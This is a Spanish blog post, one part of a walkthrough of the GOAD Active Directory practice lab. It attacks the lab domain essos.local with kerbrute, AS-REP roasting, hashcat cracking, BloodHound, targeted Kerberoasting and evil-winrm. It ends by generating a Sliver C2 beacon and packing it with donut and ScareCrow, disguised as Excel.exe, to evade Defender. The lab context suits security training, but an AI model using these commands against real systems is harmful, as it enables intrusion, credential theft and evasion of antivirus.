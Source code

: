 ```yaml
---
layout: single
title: Game of Active Directory - Parte 4
excerpt: "En esta cuarta parte vamos a atacar el dominio essos.local. Conseguiremos credenciales con asreproasting, para luego ver con bloodhound que tenemos el rol GenericAll sobre otra cuenta, y nos aprovecharemos de eso para escalar privilegios. Finalmente obtendremos un beacon de sliver evadiendo el defender."
date: 2024-04-24
classes: wide
header:
  teaser: /assets/images/Goad/logo_GOAD.jpg
  teaser_home_page: true
categories:
  - Ciberseguridad
tags:
  - Windows
  - Active Directory
---
```


![](/assets/images/Goad/logo_GOAD.jpg)


En esta cuarta parte vamos a atacar el dominio essos.local. Conseguiremos credenciales con asreproasting, para luego ver con bloodhound que tenemos el rol GenericAll sobre otra cuenta, y nos aprovecharemos de eso para escalar privilegios. Finalmente obtendremos un beacon de sliver evadiendo el defender.

Sabemos que este dominio tiene una máquina con la ip 192.168.56.23 y un controlador de dominio en la ip 192.168.56.12, así que vamos a intentar conseguir un listado de usuarios.

Le podemos pedir a chatgpt que nos cree una lista con personajes de juego de tronos en el formato nombre.apellido para luego usar alguna herramienta que nos diga cuales de estos son válidos.

Después de pedirle varias veces que nos cree una lista más larga nos da una lista con 50 candidatos.


![](/assets/images/Goad/chatgpt.jpg)


Ahora creamos un archivo con la lista de usuarios y probamos con kerbrute los que son válidos.

```bash
kerbrute userenum --domain "essos.local" --dc 192.168.56.12 users_chatgpt.txt
```


![](/assets/images/Goad/kerbrute.jpg)


Y vemos que hay 5 usuarios válidos. Ahora podemos probar con la vulnerabilidad asreproasting para ver si conseguimos alguna credencial.

```bash
GetNPUsers.py essos.local/ -no-pass -usersfile users_essos.txt
```

![](/assets/images/Goad/missandei.jpg)


Y conseguimos el hash del usuario misandei. Vamos a intentar crackearlo con hashcat.


```bash
hashcat -m 18200 asreproastable.missandei /usr/share/wordlists/rockyou.txt
```

![](/assets/images/Goad/hashcat_missandei.jpg)


Ya tenemos credenciales válidas en el dominio `misandei:fr3edom`


Ahora usaremos bloodhound para recolectar información útil del dominio y buscar vulnerabilidades.


```bash
bloodhound.py --zip -c All -d "essos.local" -u "missandei" -p "fr3edom" -dc "meereen.essos.local" -ns "192.168.56.12"
```

![](/assets/images/Goad/bloodhound.jpg)


Arrancamos neo4j y bloodhound y subimos el archivo zip que nos ha generado el comando anterior.


![](/assets/images/Goad/neo4j.jpg)


En bloodhound buscamos el usuario missandei y pinchamos en outbound object control/First Degree Object Control y vemos que tiene el rol GenericAll sobre el usuario khal.drogo. Al disponer de esta ACL tenemos control sobre este usuario y podemos incluso cambiarle la contraseña.


![](/assets/images/Goad/bloodhound_khal.jpg)


Podríamos cambiar la contraseña del usuario khal.drogo, pero esto llamaría mucho la atención y el usuario se daría cuenta, con lo cual vamos a utilizar la herramienta que nos sugiere bloodhound, targetedkerberoast.py, que es un script de Python que puede, como muchos otros (por ejemplo, GetUserSPNs.py), imprimir hashes "kerberoast" para cuentas de usuario que tienen un SPN configurado. **Esta herramienta trae la siguiente característica adicional: para cada usuario sin SPN, intenta establecer uno (abuso de un permiso de escritura en el atributo servicePrincipalName), imprimir el hash "kerberoast" y eliminar el SPN temporal establecido para esa operación. Esto se llama Kerberoasting dirigido. Esta herramienta se puede utilizar contra todos los usuarios de un dominio, o se puede proporcionar en una lista, o un usuario proporcionado en la CLI.**


![](/assets/images/Goad/targeted.jpg)


![](/assets/images/Goad/targetedkerberoast.jpg)


Y nos da dos hashes, el de khal.drogo y el de sql_svc.


De nuevo con hashcat intentamos crackearlos.


```bash
hashcat -m 13100 -a 0 Kerberoastables.txt /usr/share/wordlists/rockyou.txt
```


![](/assets/images/Goad/hashcat_khal.jpg)



Y conseguimos otras credenciales `khal.drogo:horse`


Validamos la credencial con NetExec y vemos que khal.drogo tiene permisos de administrador en la 192.168.56.23 (BRAAVOS), y que puede conectarse por winrm.


![](/assets/images/Goad/nxc_khal.jpg)


Nos conectamos con evil-winrm a la máquina, pero ahora queremos conseguir un beacon de sliver para tener el equipo en nuestro command and control. Podríamos usar el comando utilizado en los artículos anteriores, pero vamos a hacerlo de otra forma. Esta vez crearemos un ejecutable desde sliver y lo trataremos para que sea capaz de evadir el defender.

Para ello, desde sliver, creamos un listener con `https --lport 8443` y generamos un ejecutable con `generate beacon --seconds 5 --jitter 3 --os windows --arch amd64 --format EXECUTABLE --http 192.168.56.1:8443 --name goad --save /tmp/beacon.exe -G`

Utilizamos la opción --seconds 5 para que haga un callback cada 5 segundos, pero en un entorno real lógicamente se pondría un callback más largo para llamar menos la atención.

![](/assets/images/Goad/generate.jpg)

Si subimos el ejecutable directamente a la máquina y lo ejecutamos nos lo va a pillar el defender, así que vamos a utilizar un par de herramientas para evadirlo.

Primero utilizaremos [donut](https://github.com/TheWover/donut), y luego [ScareCrow](https://github.com/Tylous/ScareCrow).

```bash
./donut -i ../beacon.exe -a x64 -o beacon.bin
```

```bash
./ScareCrow -I ../beacon.bin --domain microsoft.com
```

Esto nos genera un ejecutable llamado Excel.exe que es el que subiremos a la máquina a través de nuestra sesión con evil-winrm, para finalmente conseguir nuestro beacon de sliver evadiendo el defender.


![](/assets/images/Goad/donut.jpg)

![](/assets/images/Goad/scarecrow.jpg)

![](/assets/images/Goad/excel.jpg)

![](/assets/images/Goad/beacon_khal.jpg)


Podemos ver que tenemos todos los privilegios ya que somos administrador local de la máquina.


![](/assets/images/Goad/beacon_priv.jpg)

En el próximo artículo obtendremos acceso al controlador de dominio (MEEREEN) y elevaremos privilegios.